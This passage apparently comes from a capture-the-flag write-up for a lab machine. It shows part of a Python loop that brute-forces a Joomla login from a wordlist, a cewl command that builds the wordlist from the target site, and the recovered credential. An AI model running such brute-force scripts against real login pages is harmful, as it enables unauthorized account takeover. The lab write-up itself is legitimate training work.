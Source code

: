 ```python

    for passwd in wordlist:
        if 'alert-message' not in login(passwd):
            print(f"{green}[+] {user}:{passwd} {reset:20}")
            sys.exit(0)
        else:
            print(f"{gray}[-] {user}:{passwd}{reset:20}", end='\r')


if __name__=="__main__":
    main()
```

After trying to find the password of several possible users, it ocurred me to create a wordlist with cewl.

```bash
root@kali:~$ cewl http://192.168.179.165/joomla -w cewl.list
```

Then, as a last try I used the joomla user to brute force and finally found the password.

```bash
root@kali:~$ python3 jf.py
[+] joomla:Gotham
```

I logged in as joomla.

![](/assets/images/glasgowsmile/screenshot-3.png)
